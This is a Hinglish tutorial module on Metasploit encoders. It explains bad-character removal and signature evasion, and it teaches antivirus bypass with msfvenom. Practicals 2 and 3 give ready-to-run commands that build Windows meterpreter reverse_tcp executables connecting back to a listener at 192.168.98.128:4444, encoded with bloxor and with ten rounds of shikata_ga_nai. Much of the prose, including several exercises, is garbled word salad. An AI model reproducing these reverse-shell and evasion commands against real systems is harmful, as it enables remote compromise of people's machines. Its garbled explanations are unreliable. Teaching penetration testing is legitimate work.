

# Topic 22 - Metasploit Encoders & Obfuscation Techniques

Metasploit Framework ke andar exploits aur payloads ke baad jo system evasion pipeline mein sabse critical role play karta hai, use **Encoders** kehte hain. Encoders ka use payload shellcode ko system instructions formats ke compatible banane aur signature-based detection systems (antivirus/IDS) ko bypass karne ke liye kiya jata hai.

Is guide mein hum encoders ke core concepts, polymorphic engine behavior, aur multiple practical testing methods ko details mein samjhenge.

---

## 🗺️ How Encoders Work: The Execution Pipeline



---

## 1. Deep Dive Explanation (Encoders & Obfuscation Kya Hai?)

### A. The Core Purpose of Encoders
Encoders ko primary levels par do reasons ke liye design kiya gaya hai:
1. **Bad Characters Removal:** Shellcode bytes sequence mein se block characters (jaise Null Bytes `\x00` ya Newline characters `\x0a`) ko replace karna.
2. **Signature Obfuscation:** Static malware signatures/hashes ko dynamic instructions format mein overwrite karna taaki standard security patterns matching check fail ho sake.

### B. Encoding vs Encryption: The Difference
* **Encoding (XOR/Shikata Ga Nai):** Isme decoder instructions payload file ke header mein plain text assembly instructions ke roop mein exist karti hain (e.g. Decoder Stub). Antivirus signature engines is decoder stub pattern ko scan karke pure payload ko easily detect kar sakte hain.
* **Encryption (AES/RC4):** Isme secure key verification system use hota hai aur code completely unreadable layout format mein stream hota hai. (Metasploit payloads RC4 implementation verify options support karte hain).

---

## Part 2: Bhar-Bhar Ke Practicals (Basic to Advance)

### Practical 1: Inspecting Encoders List (Basic)
Metasploit databases ke inside loaded architecture categories base checking list verify karna:

#### Step 1: Msfconsole ke andar commands check run karein:
```text
msf6 > show encoders
```
* **Output analysis:** System columns displays karega: `Name`, `Rank`, `Description`.

---

### Practical 2: Basic XOR Obfuscation Setup
Generic Windows payload ko standard x86 XOR binary format check compile instructions setup:

#### Step 1: Msfvenom CLI generator terminal target execute run:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.98.128 LPORT=4444 -e x86/bloxor -f exe -o xor_payload.exe
```

---

### Practical 3: Advanced Polymorphic Multi-Round Encoding (Advance)
`x86/shikata_ga_nai` polymorphic encoder engine use karke 10 dynamic compilation rounds layers structure verify:

#### Step 1: Compile Command (Kali Terminal):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.98.128 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o multi_round.exe
```
* **Execution Logic:** Compiler payload binary code ko 10 different random XOR keys and instructions shifts round layout layers loops ke setup system structure par compile karega.

---

## Part 3: Pro-Tips & Evasion Realities (Modern Security Posture)

### 1. The Myth of AV Evasion
* **Rookie Assumption:** *"Shikata_ga_nai use karunga toh windows defender bypass ho jayega."*
* **The Hard Reality:** Shikata_ga_nai is industry ka highly analyzed signature structure hai. Windows Defender ya modern EDR (Endpoint Detection & Response) system is compile check execution layout ko instant memory scan blocks mein terminate kar dete hain.
* **Modern Evasive Strategy:** Modern systems ko bypass karne ke liye security teams Custom Shellcode Loaders (written in C/Go/Rust) compile karti hain jo in-memory decryption execution use karti hain, bina framework standard encoders mapping structure parameters follow kiye.

---

## 📝 Practice Exercises (Hinglish Tasks)

1. **Exercise 1 (XOR Encoding Logic):**  
   XOR algorithm based encoders payload bytes ko key verification mapping ke zariye mask (hide) kaise karte hain? Basic mathematical concept batao.

2. **Exercise 2 (Polymorphic Definition):**  
   Polymorphic encoders (jaise Shikata Ga Nai) ka output hash values har dynamic compile execute check run iteration change parameters set criteria par unique kyun hota hai?

3. **Exercise 3 (Decoder Stub Extraction):**  
   Target system execution environment stack memory mein **Decoder Stub** instructions compile verification loops runtime behavior check kya control karta hai?

4. **Exercise 4 (Iterations Limitations):**  
   Msfvenom compile commands mein iterations (`-i`) variables limit ko extremely high (e.g. 50+ iterations) set karne se code size aur stability controls check constraints par kya issues aate hain?

5. **Exercise 5 (Verify Encoder Ranks):**  
   `show encoders` list check output targets list mein **`Excellent`** aur **`Manual`** ranks values specifications kya verify karti hain?

6. **Exercise 6 (Bad Characters removal in raw binaries):**  
   Raw binary templates shellcode structures parameters mein bad characters dynamically change filter logic setup compile check command design format kya hai?

7. **Exercise 7 (EDR In-Memory Detection):**  
   EDR (Endpoint Detection and Response) behavioral scanner system, encoded payload memory runtime stack boundaries process verification stage memory dump detect kaise kar leta hai?

8. **Exercise 8 (Identify RC4 encryption settings):**  
   Metasploit payloads configurations parameters reference settings checking models standard default parameters lists standard set validation check keys formats configure commands syntax verification rules list kya represent karta hai?
